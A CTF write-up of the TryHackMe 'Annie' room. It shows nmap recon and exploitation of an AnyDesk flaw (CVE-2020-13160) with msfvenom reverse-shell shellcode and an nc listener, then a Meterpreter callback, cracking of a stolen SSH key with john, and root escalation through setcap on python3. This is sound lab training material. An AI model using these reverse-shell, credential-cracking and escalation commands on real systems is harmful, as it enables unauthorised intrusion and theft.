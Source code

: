 ```yaml
---

title: Box - Annie
published: true
---
```


TryHackMe CTF Box - Remote access comes in different flavors.

[https://tryhackme.com/room/annie](https://tryhackme.com/room/annie)

![0xskar](/assets/annie01.webp)

* * *

## Recon - Research - Exploit 

##   Nmap Scans

- ``sudo nmap -Pn -sS -p- 10.10.7.95 -vvv``
- ``sudo nmap -sC -sV -O 10.10.7.95 -p22,7070,38491,42043``

- We can see ssh and "realserver" are open

* * * 

## Anydesk Client

```shell
PORT     STATE SERVICE         VERSION
7070/tcp open  ssl/realserver?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=AnyDesk Client
```

- [CVE-2020-13160](https://www.exploit-db.com/exploits/49613)

1. ``msfvenom -p linux/x64/shell_reverse_tcp LHOST=ip LPORT=7777 -b "\x00\x25\x26" -f python -v shellcode``
2. inset into payload and setup ``nc -nvlp 7777``

![0xskar](/assets/annie02.png)

* * * 

## PrivESC

1. upgrade shell ``python3 -c 'import pty; pty.spawn("/bin/bash")'``
2. setup more stable staged meterpreter shell and wget it over ``msfvenom -p linux/x64/meterpreter/reverse_tcp  LHOST=10.x.x.x LPORT=5555 -f elf > meterpreter.elf``
3. ``msfconsole use exploit/multi/handler`` & ``set payload linux/x64/meterpreter/reverse_tcp``
4. annie has id_rsa keys available in her home lets download in metasploit and then feed them to john
5. ``ssh2john id_rsa > anniejohn``
6. ``john anniejohn --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

![annie123](/assets/annie03.png)

Now that we have annie ssh to make things easiar we can login there and continue with privesc

1. linpeas.sh
2. https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/

```shell
-rwsr-xr-x 1 root root 10K Nov 16  2017 /sbin/setcap (Unknown SUID binary)
```

setcap allows us to set special permissions on files allowing us to privesc. Is we set cap_setuid+ep into a binary it can lead to privilege escalation. See the process in below pic.

![0xskar](/assets/annie04.png)

1. We check permissions on python3 as we can use that to spawn a root shell with SUID
2. It doesnt have the special permission so we can copy it from its directory to annies and setcap cap_setuid+ep and spawn a shell.

* * * 

